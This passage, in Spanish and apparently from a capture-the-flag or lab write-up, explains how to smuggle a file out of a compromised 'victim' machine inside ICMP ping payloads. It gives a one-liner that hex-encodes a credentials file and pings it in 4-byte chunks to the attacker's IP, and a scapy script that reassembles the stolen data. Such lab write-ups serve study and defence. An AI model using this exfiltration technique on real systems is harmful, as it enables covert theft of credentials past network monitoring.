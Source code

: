 Lo haremos utilizando el **parametro -p de ping**, que te permite meter un **patrón en la traza ICMP**.

El primer paso será convertir el **archivo que nos queremos enviar a hexadecimal**. Luego enviaremos el archivo en **paquetes de 4 bytes** con el comando ping y el parametro -p. Nosotros nos pondremos en escucha de trazas icmp por el puerto tun0 y **recompondremos el fichero**, parseando los datos de los paquetes.

Por ejemplo, si el archivo que queremos obtener es el archivo **credentials** que se encuentra en la ruta /home/loki, en la máquina víctima deberemos de ejecutar:

```zsh
xxd -p -c 4 /home/loki/cred* | while read line; do ping -c 1 -p $line 10.10.14.2; done
```

*   **xxd** se encarga de transformar el fichero a **hexadecimal** y formatearlo en líneas de 4 bytes.
*   El bucle while hará que por cada línea de 4 bytes se envíe un ping a mi ip conteniendo la información de esa línea.

En mi máquina, ejecutaré el siguiente ***script***, que se encargará de **parsearme** toda la **información** y **recomponerme** el **fichero**:


```python
#!/usr/bin/python3

from scapy.all import *
import signal,sys,pdb

#Ctrl +C 
def def_handler(sig, frame):
    print("[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

'''
La información útil viaja en los últimos 4 bytes del paquete ICMP.
haslayer(ICMP): chekcer de paquetes ICMP.
packet[ICMP].type == 8: El primer paquete y el segundo contienen la misma informacion. El tercero y el cuarto tambien.... Los paquetes pares tienes type == 8 
y los impares type == 0. Por tanto, estamos filtrando por los paquestes pares.
'''

def dataparser(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush = True, end = '')
if __name__ == '__main__':

    sniff(iface='tun0', prn=dataparser)
```
